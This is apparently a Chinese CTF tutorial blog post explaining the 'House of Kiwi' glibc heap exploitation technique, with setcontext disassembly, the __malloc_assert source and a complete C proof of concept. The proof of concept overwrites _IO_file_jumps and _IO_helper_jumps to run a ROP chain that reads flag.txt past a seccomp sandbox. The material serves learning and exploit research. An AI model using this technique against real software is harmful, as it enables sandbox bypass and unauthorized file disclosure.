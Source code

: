 ```yaml
---
title: house-of-Kiwi
date: 2023-11-15 13:27:21
tags:
- glibc
---
```


# House_of_Kiwi

在CTF的pwn题里，经常会遇到一些加了沙盒的题目，这种题目通常有下面两种

1. 劫持 `__free_hook` 为一些特定的gadget，进行栈的迁移
2. 劫持 `__malloc_hook` 为 `setcontext + 53/ setcontext + 61` 以及劫持 `IO_list_all` ,使得exit调用 `_IO_cleanup` 刷新缓冲区的时候读取flag

`setcontexnt+61` 有原本的rdi控制变成了rdx控制，需要控制rdx寄存器

**缺点**：如果把 `exit` 替换为 `_exit` ，由 `syscall` 调用，就不会走IO去刷新缓冲区，切高版本会取消对hook的使用

```assembly
<setcontext+61>:    mov    rsp,QWORD PTR [rdx+0xa0]
<setcontext+68>:    mov    rbx,QWORD PTR [rdx+0x80]
<setcontext+75>:    mov    rbp,QWORD PTR [rdx+0x78]
<setcontext+79>:    mov    r12,QWORD PTR [rdx+0x48]
<setcontext+83>:    mov    r13,QWORD PTR [rdx+0x50]
<setcontext+87>:    mov    r14,QWORD PTR [rdx+0x58]
<setcontext+91>:    mov    r15,QWORD PTR [rdx+0x60]
<setcontext+95>:    test   DWORD PTR fs:0x48,0x2
<setcontext+107>:    je     0x7ffff7e31156 <setcontext+294>
->
<setcontext+294>:    mov    rcx,QWORD PTR [rdx+0xa8]
<setcontext+301>:    push   rcx
<setcontext+302>:    mov    rsi,QWORD PTR [rdx+0x70]
<setcontext+306>:    mov    rdi,QWORD PTR [rdx+0x68]
<setcontext+310>:    mov    rcx,QWORD PTR [rdx+0x98]
<setcontext+317>:    mov    r8,QWORD PTR [rdx+0x28]
<setcontext+321>:    mov    r9,QWORD PTR [rdx+0x30]
<setcontext+325>:    mov    rdx,QWORD PTR [rdx+0x88]
<setcontext+332>:    xor    eax,eax
<setcontext+334>:    ret
```



## 利用条件：

1. 能够触发 `__malloc_assert ` 
2. 能够实现任意地址写

```cpp
static void
__malloc_assert (const char *assertion, const char *file, unsigned int line,
       const char *function)
{
(void) __fxprintf (NULL, "%s%s%s:%u: %s%sAssertion `%s' failed.\n",
           __progname, __progname[0] ? ": " : "",
           file, line,
           function ? function : "", function ? ": " : "",
           assertion);
fflush (stderr);
abort ();
}
```

在上面的函数中调用了 `fllush` ，这是个走io的函数，他最终会调用 `_IO_file_jumps` 中的 `sync` 指针

通过调试发现,`fllush` 调用了 `_IO_file_jumps` 中的 `_IO_file_sync` 并且观察发现此时 **RDX** 的值为 `_IO_helper_jumps` 指针，并且始终为一个固定的地址

## 利用方法

根据上面所述，我们只需要修改 `__IO_file_jumps` 中的 `__IO_file_sync` 为`setcontext + 0x61` ,修改 `_IO_helpers_jumps + 0xA0` 为布置好的ROP的地址， `_IO_helper_jumps + 0xA8`  为ret的地址

## POC

```c
// Ubuntu 20.04, GLIBC 2.32_Ubuntu2.2
//gcc demo.c -o main -z noexecstack -fstack-protector-all -pie -z now -masm=intel
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stdint.h>
#include <assert.h>
#include <unistd.h>
#include <sys/prctl.h>
#include <linux/filter.h>
#include <linux/seccomp.h>
#define pop_rdi_ret libc_base + 0x000000000002858F
#define pop_rdx_r12 libc_base + 0x0000000000114161
#define pop_rsi_ret libc_base + 0x000000000002AC3F
#define pop_rax_ret libc_base + 0x0000000000045580
#define syscall_ret libc_base + 0x00000000000611EA
#define ret pop_rdi_ret+1
size_t libc_base;
size_t ROP[0x30];
char FLAG[0x100] = "./flag.txt\x00";
void sandbox()
{
    prctl(PR_SET_NO_NEW_PRIVS, 1, 0, 0, 0);
    struct sock_filter sfi[] ={
        {0x20,0x00,0x00,0x00000004},
        {0x15,0x00,0x05,0xC000003E},
        {0x20,0x00,0x00,0x00000000},
        {0x35,0x00,0x01,0x40000000},
        {0x15,0x00,0x02,0xFFFFFFFF},
        {0x15,0x01,0x00,0x0000003B},
        {0x06,0x00,0x00,0x7FFF0000},
        {0x06,0x00,0x00,0x00000000}
    };
    struct sock_fprog sfp = {8, sfi};
    prctl(PR_SET_SECCOMP, SECCOMP_MODE_FILTER, &sfp);
}

void setROP()
{
    uint32_t i = 0;
    ROP[i++] = pop_rax_ret;
    ROP[i++] = 2;
    ROP[i++] = pop_rdi_ret;
    ROP[i++] = (size_t)FLAG;
    ROP[i++] = pop_rsi_ret;
    ROP[i++] = 0;
    ROP[i++] = syscall_ret;
    ROP[i++] = pop_rdi_ret;
    ROP[i++] = 3;
    ROP[i++] = pop_rdx_r12;
    ROP[i++] = 0x100;
    ROP[i++] = 0;
    ROP[i++] = pop_rsi_ret;
    ROP[i++] = (size_t)(FLAG + 0x10);
    ROP[i++] = (size_t)read;
    ROP[i++] = pop_rdi_ret;
    ROP[i++] = 1;
    ROP[i++] = (size_t)write;
}
int main() {
    setvbuf(stdin,0LL,2,0LL);
    setvbuf(stdout,0LL,2,0LL);
    setvbuf(stderr,0LL,2,0LL);
    sandbox();
    libc_base  = ((size_t)setvbuf) - 0x81630;
    printf("LIBC:\t%#lx\n",libc_base);

    size_t magic_gadget = libc_base + 0x53030 + 61; // setcontext + 61
    size_t IO_helper = libc_base + 0x1E48C0; // _IO_helper_jumps;
    size_t SYNC = libc_base + 0x1E5520; // sync pointer in _IO_file_jumps
    setROP();
    *((size_t*)IO_helper + 0xA0/8) = ROP; // 设置rsp
    *((size_t*)IO_helper + 0xA8/8) = ret; // 设置rcx 即 程序setcontext运行完后会首先调用的指令地址
    *((size_t*)SYNC) = magic_gadget; // 设置fflush(stderr)中调用的指令地址
    // 触发assert断言,通过large bin chunk的size中flag位修改,或者top chunk的inuse写0等方法可以触发assert
    size_t *top_size = (size_t*)((char*)malloc(0x10) + 0x18);
    *top_size = (*top_size)&0xFFE; // top_chunk size改小并将inuse写0,当top chunk不足的时候,会进入sysmalloc中,其中有个判断top_chunk的size中inuse位是否存在
    malloc(0x1000); // 触发assert
    _exit(-1);
}
```

